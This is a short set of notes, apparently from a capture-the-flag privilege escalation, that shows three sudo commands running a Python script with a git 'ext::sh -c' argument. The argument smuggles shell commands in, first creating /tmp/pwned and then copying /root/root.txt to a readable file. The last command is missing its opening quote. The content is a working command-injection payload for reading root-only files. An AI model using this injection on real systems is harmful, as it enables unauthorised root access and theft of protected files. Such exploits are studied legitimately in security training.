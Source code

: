 # Test
`
sudo /usr/bin/python3 /[path_to_file]/[python_file].py 'ext::sh -c touch% /tmp/pwned'
`

# Cat file
`
sudo /usr/bin/python3 /[path_to_file]/[python_file].py 'ext::sh -c cat% /root/root.txt% >% /tmp/root'
`

# Display the file
`
sudo /usr/bin/python3 /[path_to_file]/[python_file].py ext::sh -c cat% /root/root.txt% >% /tmp/root'
`
